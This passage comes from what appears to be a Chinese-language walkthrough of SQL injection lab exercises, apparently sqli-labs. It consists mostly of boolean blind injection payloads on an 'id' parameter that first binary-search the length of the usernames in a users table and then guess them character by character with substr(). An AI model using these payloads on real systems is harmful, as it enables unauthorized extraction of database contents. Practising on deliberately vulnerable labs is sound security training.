 ```sql
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=8,1,0) --+
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=16,1,0) --+
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=32,1,0) --+
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=64,1,0) --+
# 错误
/?id=1' and 1=if(length((select group_concat(username) from users))<=128,1,0) --+
# 错误
/?id=1' and 1=if(length((select group_concat(username) from users))<=96,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=80,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=88,1,0) --+
# 错误
/?id=1' and 1=if(length((select group_concat(username) from users))<=92,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=90,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=91,1,0) --+
```

+ 使用下列语句查询数据：

```sql
# 查询第一位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='b',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='d',1,0) --+

# 查询第二位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='b',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='c',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='u',1,0) --+
```

## Less-6 双查询双引号字符串

+ 首先要找出注入点：
